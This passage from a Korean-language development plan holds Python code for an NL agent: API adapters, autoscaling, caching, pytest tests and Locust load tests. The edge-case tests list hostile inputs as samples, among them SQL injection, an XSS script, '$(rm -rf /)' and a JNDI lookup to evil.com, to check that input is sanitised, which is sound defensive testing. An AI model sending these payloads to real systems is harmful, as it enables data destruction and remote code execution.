from typing import Dict, Any, Optional, List
import aiohttp
from tenacity import retry, stop_after_attempt, wait_exponential

class ServiceAdapter(ABC):
    """외부 서비스 어댑터 베이스 클래스"""

    def __init__(self, config: Dict[str, Any]):
        self.config = config
        self.base_url = config.get('base_url')
        self.api_key = config.get('api_key')
        self.timeout = config.get('timeout', 30)
        self.session: Optional[aiohttp.ClientSession] = None

    async def __aenter__(self):
        self.session = aiohttp.ClientSession(
            headers=self._get_headers(),
            timeout=aiohttp.ClientTimeout(total=self.timeout)
        )
        return self

    async def __aexit__(self, exc_type, exc_val, exc_tb):
        if self.session:
            await self.session.close()

    @abstractmethod
    def _get_headers(self) -> Dict[str, str]:
        """서비스별 헤더 생성"""
        pass

    @abstractmethod
    async def process(self, input_data: Any) -> Any:
        """서비스 처리 로직"""
        pass

    @retry(
        stop=stop_after_attempt(3),
        wait=wait_exponential(multiplier=1, min=4, max=10)
    )
    async def _make_request(
        self,
        method: str,
        endpoint: str,
        **kwargs
    ) -> Dict[str, Any]:
        """HTTP 요청 with 재시도"""

        url = f"{self.base_url}/{endpoint}"

        async with self.session.request(method, url, **kwargs) as response:
            response.raise_for_status()
            return await response.json()

# OpenAI GPT 어댑터
class OpenAIAdapter(ServiceAdapter):
    """OpenAI API 어댑터"""

    def _get_headers(self) -> Dict[str, str]:
        return {
            'Authorization': f'Bearer {self.api_key}',
            'Content-Type': 'application/json'
        }

    async def process(
        self,
        prompt: str,
        model: str = "gpt-4",
        temperature: float = 0.7,
        max_tokens: int = 1000
    ) -> str:
        """GPT 모델 호출"""

        data = {
            "model": model,
            "messages": [
                {"role": "user", "content": prompt}
            ],
            "temperature": temperature,
            "max_tokens": max_tokens
        }

        response = await self._make_request(
            "POST",
            "chat/completions",
            json=data
        )

        return response["choices"][0]["message"]["content"]

# Google Cloud Translation 어댑터
class GoogleTranslateAdapter(ServiceAdapter):
    """Google Cloud Translation API 어댑터"""

    def _get_headers(self) -> Dict[str, str]:
        return {
            'Content-Type': 'application/json',
            'X-Goog-Api-Key': self.api_key
        }

    async def process(
        self,
        text: str,
        target_language: str,
        source_language: Optional[str] = None
    ) -> Dict[str, Any]:
        """텍스트 번역"""

        data = {
            "q": text,
            "target": target_language
        }

        if source_language:
            data["source"] = source_language

        response = await self._make_request(
            "POST",
            "language/translate/v2",
            json=data
        )

        return {
            "translatedText": response["data"]["translations"][0]["translatedText"],
            "detectedSourceLanguage": response["data"]["translations"][0].get(
                "detectedSourceLanguage"
            )
        }

# 커스텀 NLP 서비스 어댑터
class CustomNLPAdapter(ServiceAdapter):
    """사내 NLP 서비스 어댑터"""

    def _get_headers(self) -> Dict[str, str]:
        return {
            'X-API-Key': self.api_key,
            'Content-Type': 'application/json',
            'X-Service-Version': '2.0'
        }

    async def process(
        self,
        text: str,
        operations: List[str]
    ) -> Dict[str, Any]:
        """커스텀 NLP 처리"""

        data = {
            "text": text,
            "operations": operations,
            "options": {
                "language": "auto",
                "return_confidence": True
            }
        }

        response = await self._make_request(
            "POST",
            "nlp/analyze",
            json=data
        )

        return response["results"]

# 어댑터 매니저
class AdapterManager:
    """외부 서비스 어댑터 관리"""

    def __init__(self):
        self.adapters: Dict[str, Type[ServiceAdapter]] = {
            'openai': OpenAIAdapter,
            'google_translate': GoogleTranslateAdapter,
            'custom_nlp': CustomNLPAdapter
        }
        self.instances: Dict[str, ServiceAdapter] = {}
        self.config_store = ConfigStore()

    async def get_adapter(self, service_name: str) -> ServiceAdapter:
        """어댑터 인스턴스 가져오기"""

        if service_name not in self.instances:
            if service_name not in self.adapters:
                raise ValueError(f"Unknown service: {service_name}")

            # 설정 로드
            config = await self.config_store.get_service_config(service_name)

            # 인스턴스 생성
            adapter_class = self.adapters[service_name]
            self.instances[service_name] = adapter_class(config)

        return self.instances[service_name]

    def register_adapter(
        self,
        service_name: str,
        adapter_class: Type[ServiceAdapter]
    ):
        """새로운 어댑터 등록"""

        if not issubclass(adapter_class, ServiceAdapter):
            raise TypeError("Adapter must inherit from ServiceAdapter")

        self.adapters[service_name] = adapter_class

    async def process_with_fallback(
        self,
        primary_service: str,
        fallback_services: List[str],
        input_data: Any,
        **kwargs
    ) -> Any:
        """폴백 지원 처리"""

        services = [primary_service] + fallback_services

        for service in services:
            try:
                adapter = await self.get_adapter(service)
                async with adapter:
                    result = await adapter.process(input_data, **kwargs)
                    return result

            except Exception as e:
                logger.warning(
                    f"Service {service} failed: {str(e)}"
                )

                if service == services[-1]:
                    # 마지막 서비스도 실패
                    raise ServiceUnavailableError(
                        "All services failed"
                    )

                # 다음 서비스로 폴백
                continue

# NL Agent와 통합
class NLServiceIntegration:
    """NL Agent에 외부 서비스 통합"""

    def __init__(self, nl_agent: NLInputAgent):
        self.nl_agent = nl_agent
        self.adapter_manager = AdapterManager()
        self.cache = ServiceCache()

    async def enhance_with_external_services(
        self,
        input_text: str,
        services: List[str]
    ) -> Dict[str, Any]:
        """외부 서비스를 활용한 처리 향상"""

        enhancements = {}

        # 병렬 처리
        tasks = []
        for service in services:
            if service == 'translation':
                tasks.append(self._enhance_with_translation(input_text))
            elif service == 'advanced_nlp':
                tasks.append(self._enhance_with_nlp(input_text))
            elif service == 'domain_specific':
                tasks.append(self._enhance_with_domain(input_text))

        results = await asyncio.gather(*tasks, return_exceptions=True)

        for service, result in zip(services, results):
            if isinstance(result, Exception):
                logger.error(f"Service {service} failed: {result}")
                enhancements[service] = None
            else:
                enhancements[service] = result

        return enhancements

    async def _enhance_with_translation(
        self,
        text: str
    ) -> Optional[Dict[str, Any]]:
        """번역 서비스 활용"""

        # 캐시 확인
        cache_key = f"translation:{hashlib.md5(text.encode()).hexdigest()}"
        cached = await self.cache.get(cache_key)
        if cached:
            return cached

        # 번역 수행
        adapter = await self.adapter_manager.get_adapter('google_translate')
        async with adapter:
            result = await adapter.process(
                text,
                target_language='en'
            )

        # 캐시 저장
        await self.cache.set(cache_key, result, ttl=3600)

        return result
```

**검증 기준**:

- [ ] 다양한 외부 서비스 어댑터
- [ ] 재시도 및 폴백 메커니즘
- [ ] 비동기 병렬 처리
- [ ] 결과 캐싱

#### SubTask 4.8.4: 성능 최적화 및 스케일링

**담당자**: 성능 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/agents/implementations/nl_scaling_optimization.py
from typing import Dict, List, Any, Optional
import asyncio
from dataclasses import dataclass
import numpy as np

@dataclass
class ScalingMetrics:
    current_load: float
    response_time_p95: float
    queue_depth: int
    active_instances: int
    cpu_usage: float
    memory_usage: float

class NLAutoScaler:
    """NL Agent 자동 스케일링"""

    def __init__(self):
        self.min_instances = 2
        self.max_instances = 20
        self.target_cpu = 70
        self.target_response_time = 2.0  # 초
        self.scale_up_threshold = 0.8
        self.scale_down_threshold = 0.3
        self.metrics_collector = MetricsCollector()
        self.instance_manager = InstanceManager()

    async def monitor_and_scale(self):
        """지속적인 모니터링 및 스케일링"""

        while True:
            try:
                # 메트릭 수집
                metrics = await self.metrics_collector.collect()

                # 스케일링 결정
                scaling_decision = await self._make_scaling_decision(metrics)

                # 스케일링 실행
                if scaling_decision != 0:
                    await self._execute_scaling(scaling_decision, metrics)

                # 대기
                await asyncio.sleep(30)  # 30초 간격

            except Exception as e:
                logger.error(f"Auto-scaling error: {str(e)}")
                await asyncio.sleep(60)

    async def _make_scaling_decision(
        self,
        metrics: ScalingMetrics
    ) -> int:
        """스케일링 결정 (-1: 축소, 0: 유지, 1: 확장)"""

        # 다중 메트릭 기반 결정
        factors = []

        # CPU 사용률
        if metrics.cpu_usage > self.target_cpu * 1.2:
            factors.append(1)
        elif metrics.cpu_usage < self.target_cpu * 0.5:
            factors.append(-1)
        else:
            factors.append(0)

        # 응답 시간
        if metrics.response_time_p95 > self.target_response_time:
            factors.append(1)
        elif metrics.response_time_p95 < self.target_response_time * 0.5:
            factors.append(-1)
        else:
            factors.append(0)

        # 큐 깊이
        queue_per_instance = metrics.queue_depth / max(metrics.active_instances, 1)
        if queue_per_instance > 10:
            factors.append(1)
        elif queue_per_instance < 2:
            factors.append(-1)
        else:
            factors.append(0)

        # 가중 평균 결정
        decision_score = np.mean(factors)

        if decision_score > self.scale_up_threshold:
            return 1
        elif decision_score < -self.scale_down_threshold:
            return -1
        else:
            return 0

    async def _execute_scaling(
        self,
        direction: int,
        metrics: ScalingMetrics
    ):
        """스케일링 실행"""

        current_instances = metrics.active_instances

        if direction == 1:  # Scale up
            new_instances = min(
                current_instances + self._calculate_scale_step(metrics),
                self.max_instances
            )
        else:  # Scale down
            new_instances = max(
                current_instances - 1,
                self.min_instances
            )

        if new_instances != current_instances:
            await self.instance_manager.scale_to(new_instances)

            logger.info(
                f"Scaled from {current_instances} to {new_instances} instances"
            )

            # 스케일링 이벤트 기록
            await self._record_scaling_event(
                current_instances,
                new_instances,
                metrics
            )

    def _calculate_scale_step(self, metrics: ScalingMetrics) -> int:
        """스케일 업 단계 계산"""

        # 부하에 따른 동적 스케일링
        if metrics.response_time_p95 > self.target_response_time * 2:
            return 3  # 급격한 확장
        elif metrics.queue_depth > 100:
            return 2
        else:
            return 1

class NLLoadBalancer:
    """NL Agent 로드 밸런싱"""

    def __init__(self):
        self.instances: List[AgentInstance] = []
        self.health_checker = HealthChecker()
        self.routing_strategy = "least_connections"  # or "round_robin", "weighted"

    async def route_request(
        self,
        request: NLRequest
    ) -> AgentInstance:
        """요청을 적절한 인스턴스로 라우팅"""

        # 건강한 인스턴스만 선택
        healthy_instances = await self._get_healthy_instances()

        if not healthy_instances:
            raise NoHealthyInstanceError("No healthy instances available")

        # 라우팅 전략에 따라 선택
        if self.routing_strategy == "least_connections":
            instance = min(healthy_instances, key=lambda i: i.active_connections)
        elif self.routing_strategy == "round_robin":
            instance = self._round_robin_select(healthy_instances)
        elif self.routing_strategy == "weighted":
            instance = self._weighted_select(healthy_instances)
        else:
            instance = healthy_instances[0]

        # 연결 수 증가
        instance.active_connections += 1

        return instance

    async def _get_healthy_instances(self) -> List[AgentInstance]:
        """건강한 인스턴스 목록 반환"""

        healthy = []

        for instance in self.instances:
            if await self.health_checker.is_healthy(instance):
                healthy.append(instance)

        return healthy

class NLCacheOptimizer:
    """NL 처리 캐시 최적화"""

    def __init__(self):
        self.cache_layers = {
            'l1': MemoryCache(max_size=1000),      # 메모리 캐시
            'l2': RedisCache(ttl=3600),            # Redis 캐시
            'l3': S3Cache(ttl=86400)               # S3 장기 캐시
        }
        self.cache_stats = CacheStatistics()

    async def get_or_compute(
        self,
        key: str,
        compute_func: callable,
        ttl: Optional[int] = None
    ) -> Any:
        """캐시에서 가져오거나 계산"""

        # L1 캐시 확인
        value = await self.cache_layers['l1'].get(key)
        if value is not None:
            self.cache_stats.record_hit('l1')
            return value

        # L2 캐시 확인
        value = await self.cache_layers['l2'].get(key)
        if value is not None:
            self.cache_stats.record_hit('l2')
            # L1 캐시에 승격
            await self.cache_layers['l1'].set(key, value)
            return value

        # L3 캐시 확인
        value = await self.cache_layers['l3'].get(key)
        if value is not None:
            self.cache_stats.record_hit('l3')
            # L1, L2 캐시에 승격
            await self.cache_layers['l1'].set(key, value)
            await self.cache_layers['l2'].set(key, value, ttl=3600)
            return value

        # 캐시 미스 - 계산 수행
        self.cache_stats.record_miss()

        value = await compute_func()

        # 모든 레이어에 저장
        await self._cache_to_all_layers(key, value, ttl)

        return value

    async def _cache_to_all_layers(
        self,
        key: str,
        value: Any,
        ttl: Optional[int]
    ):
        """모든 캐시 레이어에 저장"""

        tasks = [
            self.cache_layers['l1'].set(key, value),
            self.cache_layers['l2'].set(key, value, ttl=ttl or 3600),
            self.cache_layers['l3'].set(key, value, ttl=ttl or 86400)
        ]

        await asyncio.gather(*tasks, return_exceptions=True)

    async def preload_cache(self, patterns: List[str]):
        """캐시 예열"""

        # 자주 사용되는 패턴 미리 로드
        for pattern in patterns:
            key = self._generate_cache_key(pattern)

            # L3에서 L1, L2로 승격
            value = await self.cache_layers['l3'].get(key)
            if value:
                await self.cache_layers['l1'].set(key, value)
                await self.cache_layers['l2'].set(key, value)

class NLBatchProcessor:
    """배치 처리 최적화"""

    def __init__(self, batch_size: int = 10, wait_time: float = 0.1):
        self.batch_size = batch_size
        self.wait_time = wait_time
        self.pending_requests: List[Tuple[str, asyncio.Future]] = []
        self.processing = False

    async def process(self, input_text: str) -> Any:
        """배치 처리를 위한 요청 추가"""

        future = asyncio.Future()
        self.pending_requests.append((input_text, future))

        # 배치 처리 시작
        if not self.processing and len(self.pending_requests) >= self.batch_size:
            asyncio.create_task(self._process_batch())
        elif not self.processing:
            # 대기 후 처리
            asyncio.create_task(self._delayed_process())

        return await future

    async def _process_batch(self):
        """배치 처리 실행"""

        self.processing = True

        # 현재 배치 추출
        batch = self.pending_requests[:self.batch_size]
        self.pending_requests = self.pending_requests[self.batch_size:]

        try:
            # 배치 처리
            inputs = [text for text, _ in batch]
            results = await self._batch_inference(inputs)

            # 결과 반환
            for (_, future), result in zip(batch, results):
                future.set_result(result)

        except Exception as e:
            # 에러 전파
            for _, future in batch:
                future.set_exception(e)

        finally:
            self.processing = False

            # 남은 요청이 있으면 계속 처리
            if self.pending_requests:
                asyncio.create_task(self._process_batch())

    async def _delayed_process(self):
        """지연 배치 처리"""

        await asyncio.sleep(self.wait_time)

        if not self.processing and self.pending_requests:
            await self._process_batch()
```

**검증 기준**:

- [ ] 자동 스케일링 구현
- [ ] 지능형 로드 밸런싱
- [ ] 다계층 캐싱 전략
- [ ] 배치 처리 최적화

---

# Phase 4: 9개 핵심 에이전트 구현 - Part 5 (Tasks 4.9-4.10)

## 1. NL Input Agent (자연어 입력 에이전트) - 계속

### Task 4.9: NL Agent 테스트 및 품질 보증

#### SubTask 4.9.1: 단위 및 통합 테스트 프레임워크

**담당자**: QA 엔지니어  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/tests/agents/nl_input/test_framework.py
import pytest
import asyncio
from typing import Dict, List, Any, Optional
from unittest.mock import Mock, AsyncMock, patch
import json

class NLTestFramework:
    """NL Agent 테스트 프레임워크"""

    def __init__(self):
        self.test_data_loader = TestDataLoader()
        self.mock_factory = MockFactory()
        self.assertion_helper = AssertionHelper()
        self.performance_tracker = PerformanceTracker()

@pytest.fixture
def nl_agent_test_fixture():
    """NL Agent 테스트 픽스처"""

    # Mock 설정
    mock_bedrock = AsyncMock()
    mock_cache = AsyncMock()
    mock_db = AsyncMock()

    # Agent 인스턴스 생성
    with patch('agno.models.aws.AwsBedrock', return_value=mock_bedrock):
        with patch('backend.cache.RedisCache', return_value=mock_cache):
            with patch('backend.db.DynamoDB', return_value=mock_db):
                agent = NLInputAgent()

    return {
        'agent': agent,
        'mocks': {
            'bedrock': mock_bedrock,
            'cache': mock_cache,
            'db': mock_db
        }
    }

# 테스트 데이터 로더
class TestDataLoader:
    """테스트 데이터 관리"""

    def __init__(self):
        self.test_cases_path = "tests/data/nl_test_cases.json"
        self.edge_cases_path = "tests/data/nl_edge_cases.json"
        self.benchmark_data_path = "tests/data/nl_benchmarks.json"

    def load_test_cases(self) -> List[Dict[str, Any]]:
        """표준 테스트 케이스 로드"""

        with open(self.test_cases_path, 'r', encoding='utf-8') as f:
            test_cases = json.load(f)

        return [
            {
                "id": tc["id"],
                "description": tc["description"],
                "input": tc["input"],
                "expected_output": tc["expected_output"],
                "metadata": tc.get("metadata", {})
            }
            for tc in test_cases
        ]

    def load_edge_cases(self) -> List[Dict[str, Any]]:
        """엣지 케이스 로드"""

        return [
            # 극도로 짧은 입력
            {
                "id": "edge_1",
                "input": "app",
                "expected_behavior": "request_clarification",
                "min_questions": 3
            },
            # 극도로 긴 입력
            {
                "id": "edge_2",
                "input": "x" * 10001,
                "expected_behavior": "reject_too_long"
            },
            # 다국어 입력
            {
                "id": "edge_3",
                "input": "웹 애플리케이션을 만들어주세요 with React と Node.js",
                "expected_behavior": "handle_multilingual"
            },
            # 모순된 요구사항
            {
                "id": "edge_4",
                "input": "Build a serverless application that runs on my local server",
                "expected_behavior": "detect_contradiction"
            },
            # 보안 위협
            {
                "id": "edge_5",
                "input": "Create app'; DROP TABLE users; --",
                "expected_behavior": "sanitize_and_process"
            }
        ]

# 단위 테스트
@pytest.mark.unit
class TestNLInputAgent:
    """NL Input Agent 단위 테스트"""

    @pytest.mark.asyncio
    async def test_extract_entities(self, nl_agent_test_fixture):
        """엔티티 추출 테스트"""

        agent = nl_agent_test_fixture['agent']

        # 테스트 입력
        test_input = """
        I need a React web app with user authentication using Firebase.
        It should have a dashboard showing real-time analytics.
        """

        # 엔티티 추출
        entities = await agent.extract_entities(test_input)

        # 검증
        assert 'technologies' in entities
        assert 'React' in entities['technologies']
        assert 'Firebase' in entities['technologies']

        assert 'features' in entities
        assert any('authentication' in f for f in entities['features'])
        assert any('dashboard' in f for f in entities['features'])
        assert any('analytics' in f for f in entities['features'])

    @pytest.mark.asyncio
    async def test_detect_project_type(self, nl_agent_test_fixture):
        """프로젝트 타입 감지 테스트"""

        agent = nl_agent_test_fixture['agent']

        test_cases = [
            ("Build a website", "web_application"),
            ("Create an iOS app", "mobile_application"),
            ("Develop a REST API", "api_service"),
            ("Make a CLI tool", "cli_tool"),
            ("Build a Chrome extension", "browser_extension")
        ]

        for input_text, expected_type in test_cases:
            project_type = await agent.detect_project_type(input_text)
            assert project_type == expected_type, \
                f"Failed for '{input_text}': expected {expected_type}, got {project_type}"

    @pytest.mark.asyncio
    async def test_generate_clarification_questions(self, nl_agent_test_fixture):
        """명확화 질문 생성 테스트"""

        agent = nl_agent_test_fixture['agent']

        # 모호한 입력
        vague_input = "I want to build something cool"

        # 명확화 질문 생성
        questions = await agent.generate_clarification_questions(vague_input)

        # 검증
        assert len(questions) > 0
        assert all(isinstance(q, dict) for q in questions)
        assert all('question' in q for q in questions)
        assert all('category' in q for q in questions)
        assert all('options' in q or 'type' in q for q in questions)

    @pytest.mark.parametrize("language,expected_lang_code", [
        ("Build a web app", "en"),
        ("Construire une application web", "fr"),
        ("웹 애플리케이션을 만들어주세요", "ko"),
        ("Webアプリを作ってください", "ja"),
    ])
    @pytest.mark.asyncio
    async def test_language_detection(
        self,
        nl_agent_test_fixture,
        language,
        expected_lang_code
    ):
        """언어 감지 테스트"""

        agent = nl_agent_test_fixture['agent']
        detected_lang = await agent.detect_language(language)
        assert detected_lang == expected_lang_code

# 통합 테스트
@pytest.mark.integration
class TestNLIntegration:
    """NL Agent 통합 테스트"""

    @pytest.mark.asyncio
    async def test_full_processing_pipeline(self, nl_agent_test_fixture):
        """전체 처리 파이프라인 테스트"""

        agent = nl_agent_test_fixture['agent']
        mocks = nl_agent_test_fixture['mocks']

        # Mock 응답 설정
        mocks['bedrock'].arun.return_value = json.dumps({
            "project_type": "web_application",
            "features": ["user_auth", "dashboard"],
            "technologies": ["React", "Node.js"],
            "requirements": {
                "functional": ["User can login", "User can view dashboard"],
                "non_functional": ["Response time < 2s", "Support 1000 users"]
            }
        })

        # 입력 처리
        input_text = "Build a web app with user authentication and dashboard"
        result = await agent.process_description(input_text)

        # 검증
        assert result is not None
        assert result.project_type == "web_application"
        assert len(result.technical_requirements) > 0
        assert len(result.non_functional_requirements) > 0

        # Mock 호출 검증
        mocks['bedrock'].arun.assert_called()

    @pytest.mark.asyncio
    async def test_clarification_flow(self, nl_agent_test_fixture):
        """명확화 플로우 통합 테스트"""

        agent = nl_agent_test_fixture['agent']

        # 1단계: 초기 분석
        vague_input = "I need an app"
        initial_result = await agent.process_description(vague_input)

        assert initial_result.needs_clarification
        assert len(initial_result.clarification_questions) > 0

        # 2단계: 명확화 응답
        clarifications = {
            q.id: "web application" if "type" in q.question else "e-commerce"
            for q in initial_result.clarification_questions
        }

        # 3단계: 업데이트된 분석
        final_result = await agent.process_clarifications(
            initial_result,
            clarifications
        )

        assert not final_result.needs_clarification
        assert final_result.project_type is not None
        assert final_result.confidence > initial_result.confidence

# 성능 테스트
@pytest.mark.performance
class TestNLPerformance:
    """NL Agent 성능 테스트"""

    @pytest.mark.asyncio
    async def test_response_time(self, nl_agent_test_fixture):
        """응답 시간 테스트"""

        agent = nl_agent_test_fixture['agent']
        performance_tracker = PerformanceTracker()

        # 다양한 입력 크기로 테스트
        test_inputs = [
            "Simple web app",  # 짧은 입력
            "I need a complex e-commerce platform with user authentication, " * 10,  # 중간
            "Build an enterprise application with microservices... " * 50  # 긴 입력
        ]

        for input_text in test_inputs:
            start_time = asyncio.get_event_loop().time()

            await agent.process_description(input_text)

            elapsed_time = asyncio.get_event_loop().time() - start_time
            performance_tracker.record("response_time", elapsed_time)

            # 응답 시간 검증 (SLA: 2초)
            assert elapsed_time < 2.0, f"Response time {elapsed_time}s exceeds SLA"

        # 평균 응답 시간
        avg_response_time = performance_tracker.get_average("response_time")
        assert avg_response_time < 1.0, f"Average response time {avg_response_time}s too high"

    @pytest.mark.asyncio
    async def test_concurrent_processing(self, nl_agent_test_fixture):
        """동시 처리 성능 테스트"""

        agent = nl_agent_test_fixture['agent']

        # 100개의 동시 요청
        concurrent_requests = 100
        inputs = [f"Build web app number {i}" for i in range(concurrent_requests)]

        start_time = asyncio.get_event_loop().time()

        # 동시 실행
        tasks = [agent.process_description(inp) for inp in inputs]
        results = await asyncio.gather(*tasks, return_exceptions=True)

        elapsed_time = asyncio.get_event_loop().time() - start_time

        # 검증
        successful = sum(1 for r in results if not isinstance(r, Exception))
        assert successful >= concurrent_requests * 0.95  # 95% 성공률

        # 처리량 계산
        throughput = concurrent_requests / elapsed_time
        assert throughput > 10, f"Throughput {throughput} req/s is too low"

# 엣지 케이스 테스트
@pytest.mark.edge_cases
class TestNLEdgeCases:
    """NL Agent 엣지 케이스 테스트"""

    @pytest.mark.asyncio
    async def test_malicious_input_handling(self, nl_agent_test_fixture):
        """악의적 입력 처리 테스트"""

        agent = nl_agent_test_fixture['agent']

        malicious_inputs = [
            "'; DROP TABLE users; --",
            "<script>alert('xss')</script>",
            "Build app $(rm -rf /)",
            "Create ${jndi:ldap://evil.com/a}",
            "Make app with ../../../../etc/passwd"
        ]

        for malicious_input in malicious_inputs:
            # 예외가 발생하지 않아야 함
            result = await agent.process_description(malicious_input)

            # 살균된 입력 확인
            assert result is not None
            assert not any(
                dangerous in str(result)
                for dangerous in ['DROP', 'script', 'rm -rf', 'jndi:', '../']
            )
```

**검증 기준**:

- [ ] 포괄적인 단위 테스트
- [ ] 통합 테스트 시나리오
- [ ] 성능 벤치마크 테스트
- [ ] 엣지 케이스 처리

#### SubTask 4.9.2: 부하 테스트 및 스트레스 테스트

**담당자**: 성능 테스트 엔지니어  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/tests/load/nl_load_test.py
from locust import HttpUser, task, between, events
from locust.contrib.fasthttp import FastHttpUser
import json
import random
from datetime import datetime

class NLLoadTestUser(FastHttpUser):
    """NL Agent 부하 테스트 사용자"""

    wait_time = between(1, 3)

    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.test_data = self._load_test_data()
        self.session_id = None
        self.clarification_needed = False

    def _load_test_data(self):
        """테스트 데이터 로드"""

        return {
            "simple_descriptions": [
                "Build a todo app with React",
                "Create a blog platform",
                "Make an e-commerce website",
                "Develop a chat application",
                "Build a project management tool"
            ],
            "complex_descriptions": [
                """
                I need a comprehensive e-commerce platform with the following features:
                - Multi-vendor marketplace support
                - Real-time inventory management
                - AI-powered product recommendations
                - Mobile apps for iOS and Android
                - Integration with multiple payment gateways
                - Advanced analytics dashboard
                - Multi-language and multi-currency support
                """,
                """
                Build a scalable social media platform that can handle millions of users.
                Requirements include real-time messaging, video streaming, content moderation,
                personalized feeds using machine learning, and comprehensive admin tools.
                Must be GDPR compliant and support horizontal scaling.
                """
            ],
            "languages": ["en", "es", "fr", "de", "ja", "ko"],
            "clarification_responses": {
                "project_type": ["web", "mobile", "desktop", "api"],
                "target_users": ["consumers", "businesses", "internal"],
                "scale": ["small", "medium", "large", "enterprise"]
            }
        }

    def on_start(self):
        """테스트 시작 시 인증"""

        response = self.client.post(
            "/api/v1/auth/login",
            json={
                "username": f"loadtest_user_{random.randint(1, 1000)}",
                "password": "test_password"
            }
        )

        if response.status_code == 200:
            self.token = response.json()["token"]
            self.client.headers["Authorization"] = f"Bearer {self.token}"

    @task(3)
    def simple_analysis(self):
        """간단한 분석 요청"""

        description = random.choice(self.test_data["simple_descriptions"])

        with self.client.post(
            "/api/v1/nl-input/analyze",
            json={
                "description": description,
                "user_id": f"load_test_{self.user_id}",
                "language": random.choice(self.test_data["languages"])
            },
            catch_response=True
        ) as response:
            if response.status_code == 200:
                data = response.json()

                # 응답 검증
                if "requirements" in data and "project_id" in data:
                    response.success()

                    # 명확화 필요 여부 저장
                    if data.get("clarification_needed"):
                        self.session_id = data.get("session_id")
                        self.clarification_needed = True
                else:
                    response.failure("Invalid response structure")
            else:
                response.failure(f"Status code: {response.status_code}")

    @task(1)
    def complex_analysis(self):
        """복잡한 분석 요청"""

        description = random.choice(self.test_data["complex_descriptions"])

        with self.client.post(
            "/api/v1/nl-input/analyze",
            json={
                "description": description,
                "user_id": f"load_test_{self.user_id}",
                "context": {
                    "industry": random.choice(["tech", "finance", "healthcare"]),
                    "budget": random.choice(["low", "medium", "high"])
                }
            },
            catch_response=True,
            name="/api/v1/nl-input/analyze [complex]"
        ) as response:
            if response.status_code == 200:
                response.success()
            else:
                response.failure(f"Complex analysis failed: {response.status_code}")

    @task(2)
    def clarification_flow(self):
        """명확화 플로우 테스트"""

        if not self.clarification_needed or not self.session_id:
            # 먼저 명확화가 필요한 요청 생성
            self._trigger_clarification_need()
            return

        # 명확화 응답 전송
        answers = {}
        for i in range(random.randint(1, 5)):
            question_id = f"q_{i}"
            answer_type = random.choice(list(self.test_data["clarification_responses"].keys()))
            answers[question_id] = random.choice(
                self.test_data["clarification_responses"][answer_type]
            )

        with self.client.post(
            f"/api/v1/nl-input/clarify/{self.session_id}",
            json={"answers": answers},
            catch_response=True,
            name="/api/v1/nl-input/clarify"
        ) as response:
            if response.status_code == 200:
                response.success()
                self.clarification_needed = False
                self.session_id = None
            else:
                response.failure(f"Clarification failed: {response.status_code}")

    def _trigger_clarification_need(self):
        """명확화가 필요한 요청 생성"""

        vague_descriptions = [
            "I need an app",
            "Build something cool",
            "Make a website",
            "Create a system"
        ]

        self.client.post(
            "/api/v1/nl-input/analyze",
            json={
                "description": random.choice(vague_descriptions),
                "user_id": f"load_test_{self.user_id}"
            }
        )

# 스트레스 테스트 시나리오
class NLStressTestUser(FastHttpUser):
    """극한 부하 테스트"""

    wait_time = between(0.1, 0.5)  # 매우 짧은 대기 시간

    @task
    def stress_test(self):
        """스트레스 테스트 시나리오"""

        # 극한 조건 생성
        stress_scenarios = [
            # 매우 긴 입력
            {
                "description": "Build " + " ".join([
                    f"feature_{i}" for i in range(1000)
                ]),
                "name": "extreme_length"
            },
            # 많은 특수 문자
            {
                "description": "Create app " + "!@#$%^&*()" * 100,
                "name": "special_chars"
            },
            # 유니코드 스트레스
            {
                "description": "开发一个应用 " + "🚀" * 500 + " עם תכונות",
                "name": "unicode_stress"
            },
            # 중첩된 구조
            {
                "description": json.dumps({
                    "nested": {"level": {"deep": {"data": "x" * 1000}}}
                }),
                "name": "nested_json"
            }
        ]

        scenario = random.choice(stress_scenarios)

        with self.client.post(
            "/api/v1/nl-input/analyze",
            json={
                "description": scenario["description"],
                "user_id": f"stress_test_{self.user_id}"
            },
            catch_response=True,
            name=f"/api/v1/nl-input/analyze [{scenario['name']}]"
        ) as response:
            # 스트레스 조건에서도 안정적으로 응답해야 함
            if response.status_code in [200, 400, 413]:  # 정상, 잘못된 요청, 너무 큼
                response.success()
            else:
                response.failure(f"Unexpected status: {response.status_code}")

# 성능 메트릭 수집
@events.request.add_listener
def on_request(request_type, name, response_time, response_length, response, **kwargs):
    """요청 메트릭 수집"""

    # 커스텀 메트릭 기록
    if response_time > 2000:  # 2초 초과
        print(f"[SLOW] {name}: {response_time}ms")

    # 에러 상세 정보
    if response and response.status_code >= 400:
        print(f"[ERROR] {name}: {response.status_code} - {response.text[:200]}")

@events.test_stop.add_listener
def on_test_stop(environment, **kwargs):
    """테스트 종료 시 보고서 생성"""

    print("\n=== Load Test Summary ===")
    print(f"Total Requests: {environment.stats.total.num_requests}")
    print(f"Failed Requests: {environment.stats.total.num_failures}")
    print(f"Median Response Time: {environment.stats.total.median_response_time}ms")
    print(f"95th Percentile: {environment.stats.total.get_response_time_percentile(0.95)}ms")
    print(f"99th Percentile: {environment.stats.total.get_response_time_percentile(0.99)}ms")

    # 상세 보고서 저장
    report = {
        "timestamp": datetime.now().isoformat(),
        "total_requests": environment.stats.total.num_requests,
        "failures": environment.stats.total.num_failures,
        "response_times": {
            "median": environment.stats.total.median_response_time,
            "p95": environment.stats.total.get_response_time_percentile(0.95),
            "p99": environment.stats.total.get_response_time_percentile(0.99)
        },
        "rps": environment.stats.total.current_rps
    }

    with open("load_test_report.json", "w") as f:
        json.dump(report, f, indent=2)
```

```yaml
# backend/tests/load/stress-test-config.yaml
# K6 스트레스 테스트 설정
scenarios:
  # 점진적 부하 증가
  ramp_up:
    executor: 'ramping-vus'
    startVUs: 0
    stages:
      - duration: '2m', target: 100
      - duration: '5m', target: 100
      - duration: '2m', target: 200
      - duration: '5m', target: 200
      - duration: '2m', target: 0
    gracefulRampDown: '30s'

  # 스파이크 테스트
  spike_test:
    executor: 'ramping-vus'
    startVUs: 0
    stages:
      - duration: '30s', target: 10
      - duration: '30s', target: 500  # 급격한 증가
      - duration: '2m', target: 500
      - duration: '30s', target: 10   # 급격한 감소

  # 지속 부하 테스트
  sustained_load:
    executor: 'constant-vus'
    vus: 200
    duration: '30m'

  # 극한 스트레스 테스트
  stress_test:
    executor: 'ramping-arrival-rate'
